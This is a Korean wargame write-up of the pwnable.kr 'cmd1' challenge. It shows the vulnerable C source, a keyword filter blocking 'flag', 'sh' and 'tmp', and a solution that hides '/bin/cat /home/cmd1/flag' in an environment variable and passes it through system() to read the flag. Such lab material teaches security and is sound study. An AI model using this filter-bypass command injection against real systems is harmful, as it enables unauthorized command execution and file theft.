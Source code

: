 # [Toddler's Bottle] cmd1
cmd1에서 제공하는 글을 확인해보자.
```
Mommy! what is PATH environment in Linux?

ssh cmd1@pwnable.kr -p2222 (pw:guest)
```
putty로 접속해주자.

```
cmd1@ubuntu:~$ cat cmd1.c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "flag")!=0;
        r += strstr(cmd, "sh")!=0;
        r += strstr(cmd, "tmp")!=0;
        return r;
}
int main(int argc, char* argv[], char** envp){
        putenv("PATH=/thankyouverymuch");
        if(filter(argv[1])) return 0;
        system( argv[1] );
        return 0;
}
```

> * strstr(대상문자열, 검색할문자열);  
    - char *strstr(char * const _String, char const * const _SubString);  
    - 문자열을 찾았으면 문자열로 시작하는 문자열의 포인터를 반환, 문자열이 없으면 NULL을 반환

이번문제는 환경변수를 이용하는 문제인것 같다.  
게다가 strstr함수를 이용하여 인자에 `flag` `sh` `tmp`가 들어왔는지 검사한다.

h라는 환경변수를 만들어주자
```
cmd1@ubuntu:~$ export h="/bin/cat /home/cmd1/flag"
.
.
cmd1@ubuntu:~$ export
.
.
declare -x h="/bin/cat /home/cmd1/flag"
```
환경변수에 문자열이 잘 전달되었음을 확인했으므로 이제 이것을 전달해주면 해결 할 수 있다.
```
cmd1@ubuntu:~$ ./cmd1 '$h'
mommy now I get what PATH environment is for :)
```

